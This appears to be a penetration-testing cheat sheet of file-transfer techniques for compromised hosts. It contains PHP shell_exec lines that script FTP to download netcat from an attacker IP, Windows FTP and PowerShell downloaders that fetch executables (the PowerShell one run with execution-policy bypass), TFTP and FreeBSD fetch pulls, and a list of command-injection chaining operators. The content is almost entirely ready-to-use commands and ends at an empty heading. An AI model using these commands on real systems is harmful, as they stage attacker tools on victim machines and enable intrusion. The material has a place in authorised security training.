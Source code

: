 	php ftp sequence to transfer netcat on linux
	
	<?php echo shell_exec("echo open 192.168.42.102 21>/usr/local/databases/ftp.txt");?>
	<?php echo shell_exec("echo user offsec lab>> /usr/local/databases/ftp.txt");?>
	<?php echo shell_exec("echo binary>> /usr/local/databases/ftp.txt");?>
	<?php echo shell_exec("echo get netcat /usr/local/databases/netcat>>/usr/local/databases/ftp.txt");?>
	<?php echo shell_exec("echo bye>> /usr/local/databases/ftp.txt");?>
	
	<?php echo shell_exec("ftp -n < /usr/local/databases/ftp.txt");?>
	
Windows FTP via text file

	echo open 192.168.1.101 21> ftp.txt
    echo USER username>> ftp.txt
    echo mypassword>> ftp.txt
    echo bin>> ftp.txt
    echo GET wget.exe>> ftp.txt
    echo bye>> ftp.txt
		
	ftp -v -n -s:ftp.txt
	
Powershell

	echo $storageDir = $pwd > wget.ps1
    echo $webclient = New-Object System.Net.WebClient >>wget.ps1
    echo $url = "http://IPADDRESS/file.exe" >>wget.ps1
    echo $file = "output-file.exe" >>wget.ps1
    echo $webclient.DownloadFile($url,$file) >>wget.ps1
		
	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
	
TFTP, usually enabled by default in Server 2003, XP, and below

	Start tftp server on Kali
	aftpd start
	
	Transfer files from Kali to Windows (from windows terminal)
	tftp -I IPADDRESS GET nameoffile.exe
			
FreeBSD

	fetch http://IPADDRESS/filename
			
## Command Injection
	
	command1 && command2 that will run command2 if command1 succeeds.
	
    command1 || command2 that will run command2 if command1 fails.

	command1 ; command2 that will run command1 then command2.
	
    command1 | command2 that will run command1 and send the output of command1 to command2

	$(command)

	# Windows
		